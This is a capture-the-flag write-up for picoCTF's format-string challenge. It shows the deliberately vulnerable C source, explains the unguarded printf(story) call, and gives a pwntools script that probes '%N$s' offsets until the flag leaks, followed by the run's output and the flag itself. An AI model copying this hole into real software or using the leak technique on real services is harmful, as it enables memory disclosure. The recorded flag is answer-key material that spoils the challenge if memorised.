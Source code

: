 #### Description

Story telling class 1/2I'm just copying and pasting with this [program](https://artifacts.picoctf.net/c/91/vuln). What can go wrong? You can view source [here](https://artifacts.picoctf.net/c/91/vuln.c). And connect with it using:`nc saturn.picoctf.net 55800`

Contents of `vuln.c` : 

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}
```

Lets analyse the code. Here is what is interesting: 

```c
void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story); // <- no format specifier, vulnerable to format string attacks
   printf("\n");
}
```

This is how the print statement works: 
The `printf` function takes a variable number of arguments. The 0th argument is the format string, and the 1st and late arguments are the values that match the format. The grammar of a conversion specification is: 
```
%[argument$][flags][width][.precision][length modifier]conversion
```

But in the program given above, there is only one argument passed in the `printf` statement. 
So, we have full control on what format string to use. 

Python script: 
```python
from pwn import * 

for i in range(128):
    x = remote('saturn.picoctf.net', 57992)
    try: 
        x.sendline('%' + str(i) + '$s')
        x.recvuntil(b'>')
        y = x.recvlines(2)[1] # this line was giving me EOF error, so I put it in a try except block  
        if b'CTF' in y:
            print(y)
            x.close()
            break
        print(i, y)
        x.close()
    except Exception:
        pass
```

What this code does is basically, sends the format string `%{integer}$s` to the program, returns its output and then closes the connection with the server. 

If the output contains `CTF`, then it will print the output and and close the connection and break the loop.  

`%{integer}$s` -> `printf` will fetch whatever value is at the stack location for argument {integer} and treat that value as an address. It will then try to read a NUL-terminated string from that address and print it.

I tried using `%x`, but it didn't yield any results, even up until the end of the buffer. 
`%s` is what gave out the flag. 

Output: 
```
 x.sendline('%' + str(i) + '$s')
0 b'%0$s'
[*] Closed connection to saturn.picoctf.net port 57992
[+] Opening connection to saturn.picoctf.net on port 57992: Done
1 b'%1$s'
[*] Closed connection to saturn.picoctf.net port 57992
[+] Opening connection to saturn.picoctf.net on port 57992: Done
2 b'\x10Q\x93\xf2'
[*] Closed connection to saturn.picoctf.net port 57992
[+] Opening connection to saturn.picoctf.net on port 57992: Done
3 b'\x81\xc3\xba,'
[*] Closed connection to saturn.picoctf.net port 57992
[+] Opening connection to saturn.picoctf.net on port 57992: Done
[+] Opening connection to saturn.picoctf.net on port 57992: Done
[+] Opening connection to saturn.picoctf.net on port 57992: Done
6 b'(null)'
[*] Closed connection to saturn.picoctf.net port 57992
[+] Opening connection to saturn.picoctf.net on port 57992: Done
7 b'\x07/'
[*] Closed connection to saturn.picoctf.net port 57992
[+] Opening connection to saturn.picoctf.net on port 57992: Done
8 b''
[*] Closed connection to saturn.picoctf.net port 57992
[+] Opening connection to saturn.picoctf.net on port 57992: Done
[+] Opening connection to saturn.picoctf.net on port 57992: Done
10 b'(null)'
[*] Closed connection to saturn.picoctf.net port 57992
[+] Opening connection to saturn.picoctf.net on port 57992: Done
11 b'\xb3.'
[*] Closed connection to saturn.picoctf.net port 57992
[+] Opening connection to saturn.picoctf.net on port 57992: Done
12 b''
[*] Closed connection to saturn.picoctf.net port 57992
[+] Opening connection to saturn.picoctf.net on port 57992: Done
13 b'(null)'
[*] Closed connection to saturn.picoctf.net port 57992
[+] Opening connection to saturn.picoctf.net on port 57992: Done
14 b''
[*] Closed connection to saturn.picoctf.net port 57992
[+] Opening connection to saturn.picoctf.net on port 57992: Done
15 b'\x83\xc4\x10\x83\xf8\xff\x0f\x84\xba'
[*] Closed connection to saturn.picoctf.net port 57992
[+] Opening connection to saturn.picoctf.net on port 57992: Done
16 b'\x87(\xad\xfbg\x8d@\xeeg\x8d@\xeeg\x8d@\xeeg\x8d@\xeeg\x8d@\xeeg\x8d@\xeeg\x8d@\xeeh\x8d@\xee'
[*] Closed connection to saturn.picoctf.net port 57992
[+] Opening connection to saturn.picoctf.net on port 57992: Done
[+] Opening connection to saturn.picoctf.net on port 57992: Done
18 b'(null)'
[*] Closed connection to saturn.picoctf.net port 57992
[+] Opening connection to saturn.picoctf.net on port 57992: Done
19 b'setresgid'
[*] Closed connection to saturn.picoctf.net port 57992
[+] Opening connection to saturn.picoctf.net on port 57992: Done
20 b'\xa0\xb1\xd5\xec'
[*] Closed connection to saturn.picoctf.net port 57992
[+] Opening connection to saturn.picoctf.net on port 57992: Done
21 b'\x89\xc7e\xa1\x0c'
[*] Closed connection to saturn.picoctf.net port 57992
[+] Opening connection to saturn.picoctf.net on port 57992: Done
22 b'setresgid'
[*] Closed connection to saturn.picoctf.net port 57992
[+] Opening connection to saturn.picoctf.net on port 57992: Done
23 b''
[*] Closed connection to saturn.picoctf.net port 57992
[+] Opening connection to saturn.picoctf.net on port 57992: Done
b'CTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}'
[*] Closed connection to saturn.picoctf.net port 57992
[*] Closed connection to saturn.picoctf.net port 57992
[*] Closed connection to saturn.picoctf.net port 57992
[*] Closed connection to saturn.picoctf.net port 57992
[*] Closed connection to saturn.picoctf.net port 57992
```

flag: `picoCTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}`

Reference: 
https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/
https://docs.pwntools.com/en/stable/

